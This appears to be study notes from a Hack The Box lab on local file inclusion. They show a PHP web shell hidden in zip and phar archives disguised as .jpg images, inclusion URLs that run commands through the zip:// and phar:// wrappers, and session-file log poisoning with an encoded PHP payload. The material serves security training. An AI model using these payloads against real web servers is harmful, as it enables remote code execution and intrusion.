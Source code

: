 ```shell
NolanCarougeHTB@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file :

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```shell
NolanCarougeHTB@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

## Log Poisoning : 

Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file), and then include that log file to execute the PHP code.

Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`.
By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.
